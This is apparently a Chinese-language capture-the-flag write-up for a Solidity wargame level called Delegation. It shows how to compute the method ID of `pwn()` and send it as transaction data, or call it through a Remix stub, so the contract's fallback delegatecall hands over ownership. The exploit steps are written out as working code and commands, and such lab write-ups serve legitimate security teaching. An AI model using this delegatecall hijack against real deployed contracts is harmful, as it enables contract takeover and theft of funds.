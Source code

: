 
### 相关资料：
[深度解析Solidity合约调用call，callcode，及delegatecall函数](https://www.jianshu.com/p/fd5075ff0ab9)

[Calling the Function of Another Contract in Solidity](https://medium.com/@blockchain101/calling-the-function-of-another-contract-in-solidity-f9edfa921f4c)


### 方法一
生成methods id然后直接调用，生成methods id的方法
- 1. 利用在线网站[Keccak-256](https://emn178.github.io/online-tools/keccak_256.html) ，输入`pwn()`，在输出部分取前8个字符（4bytes）并增加'0x'前缀: `0xdd365b8b`
- 2. 使用以下方法，输入`pwn()`, 返回`0xdd365b8b`

```json
pragma solidity ^0.4.24;

contract Utils {
    
    function getMethodsId(string fn) public pure returns(bytes4) {
       return bytes4(keccak256(abi.encodePacked(fn)));
    }
}
```

拿到methods id后，我们在console中通过SendTransaction可以调用Delegation的fallback方法：
`sendTransaction({from:player, to: instance, data:'0xdd365b8b'})`

### 方法二
在remix中操作，编译后填入关卡instance地址，点击at address，然后调用pwn即可（注意gas limit要调大一点不然会out of gas，不要用默认计算的gas limit），由于Delegation instance中并没有这个方法，所有会触发器fallback方法，msg.data就是这个pwd()的签名。

```json
pragma solidity ^0.4.18;

contract Delegation {
  function pwn() public;
}
```